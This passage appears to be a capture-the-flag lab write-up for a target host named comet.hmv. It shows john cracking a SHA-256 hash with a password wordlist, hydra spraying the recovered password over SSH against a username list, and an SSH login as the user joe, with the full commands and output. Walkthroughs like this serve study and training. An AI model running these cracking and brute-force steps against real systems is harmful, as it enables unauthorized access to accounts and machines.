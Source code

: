 `john --format=raw-sha256 --wordlist=/usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords.txt ./hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
prettywoman      (?) ←
1g 0:00:00:00 DONE (2024-09-17 03:28) 11.11g/s 1820Kp/s 1820Kc/s 1820KC/s 9931..mikemo
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

`hydra -L /usr/share/seclists/SecLists-master/Usernames/xato-net-10-million-usernames.txt -p 'prettywoman' ssh://192.168.56.113`:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-17 03:33:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://192.168.56.113:22/
[22][ssh] host: 192.168.56.113   login: joe   password: prettywoman ←
```

`ssh joe@192.168.56.113`:
```
The authenticity of host '192.168.56.113 (192.168.56.113)' can't be established.
ED25519 key fingerprint is SHA256:s1UJuaVeu8UNzbo7FaamRo2EWZrzFXveeiWZyCxeJE0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.113' (ED25519) to the list of known hosts.
joe@192.168.56.113's password: ←
Linux comet.hmv 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

![Victim: joe](https://img.shields.io/badge/Victim-joe-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
joe ←
```
